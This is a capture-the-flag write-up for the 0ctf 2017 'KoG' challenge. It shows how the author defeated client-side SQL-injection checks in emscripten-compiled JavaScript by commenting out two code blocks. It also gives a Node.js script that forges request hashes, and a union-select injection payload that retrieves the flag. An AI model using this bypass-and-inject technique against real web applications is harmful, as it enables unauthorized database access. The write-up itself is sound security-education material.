 +++
title = "0ctf 2017 - KoG"
date = "2017-03-19T21:11:57-07:00"

+++

Do you know you can run your C++ program in browser?

<!--more-->

# Problem

> King of Glory is a funny game. Our website has a list of players.  
> http://202.120.7.213:11181

Hitting the given URL doesn't show anything interesting, but the page source code indicating it was looking for `id`
parameter.  So try it with `?id=1`, we can see it made a request to api.php with some interesting parameters.

```
http://202.120.7.213:11181/api.php?id=1&hash=035c6d4adf335c31e884796a11a2590f&time=1489983725
```

Ha, looks like it hashes `id` using current time as salt and use that hash to validate at server side for integrity.
If you try to put some SQLi stuff in `id`, it will reject hash generation, which happens in client side.
So the goal is pretty straightforward: bypass client side SQLi detection, generate hash and inject the server!

Now it comes the hard part: the [hash generation code][1] is the most complex Javascript code I have ever seen.  Tracing
into `Module.main`, I see memory allocators, function maps, and even function name that suggests system calls.
What The Heck!

Googling around I figured it out: it was compiled from C/C++, using [emscripten][2].

> Emscripten is an LLVM-based project that compiles C and C++ into highly-optimizable JavaScript in asm.js format.
> This lets you run C and C++ on the web at near-native speed, without plugins.

The bad news, there is little, if not none, tools to reverse engineer generated Javascript code.

The good news, it is still plain text, far better than ELF binary. It is easy to inject tracing code, run it with and
without SQLi characters and compare the call sequence to find out where to apply patches.

The function in question was `__Z10user_inputNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE`. After
commenting out following two if blocks, it generates hash for any input.

```javascript
if (!($13)) {
 ;HEAP32[$agg$result>>2]=HEAP32[$s>>2]|0;HEAP32[$agg$result+4>>2]=HEAP32[$s+4>>2]|0;HEAP32[$agg$result+8>>2]=HEAP32[$s+8>>2]|0;
 ;HEAP32[$s>>2]=0|0;HEAP32[$s+4>>2]=0|0;HEAP32[$s+8>>2]=0|0;
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($te);
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($s);
 STACKTOP = sp;return;
}
```

```javascript
if ((label|0) == 12) {
 ;HEAP32[$agg$result>>2]=HEAP32[$s>>2]|0;HEAP32[$agg$result+4>>2]=HEAP32[$s+4>>2]|0;HEAP32[$agg$result+8>>2]=HEAP32[$s+8>>2]|0;
 ;HEAP32[$s>>2]=0|0;HEAP32[$s+4>>2]=0|0;HEAP32[$s+8>>2]=0|0;
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($te);
 __ZNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev($s);
 STACKTOP = sp;return;
}
```

Now it becomes a simple SQLi task.  First use `order by` trick to find out number of columns in the `select` statement.
Then query `information_schema.tables` and `information_schema.columns` to find table and column in question.

It is handy to write a simple `main.js` that does the hash and curl so no need to copy-paste around.

```javascript
var Module = require('./functionn.js');

var q = process.argv[2];
var hash = Module.main(q).split('|');

var req = 'http://202.120.7.213:11181/api.php?id=' + encodeURI(q) + '&hash=' + hash[0] + '&time=' + hash[1]
console.log(req);

var spawn = require('child_process').spawn;
var curl = spawn('curl', [req]);

curl.stdout.on('data', (data) => {
  console.log(`response: ${data}`);
});
```

```
$ node main.js "1 union all select 1,hey from fl4g"
http://202.120.7.213:11181/api.php?id=1%20union%20all%20select%201,hey%20from%20fl4g&hash=c2f05acaf2f91ba81b8c9b3ce2304da7&time=1489882992
response: EaseSingle Qinflag{emScripten_is_Cut3_right?}
```

[1]: /0ctf-2017/functionn.js
[2]: http://kripken.github.io/emscripten-site
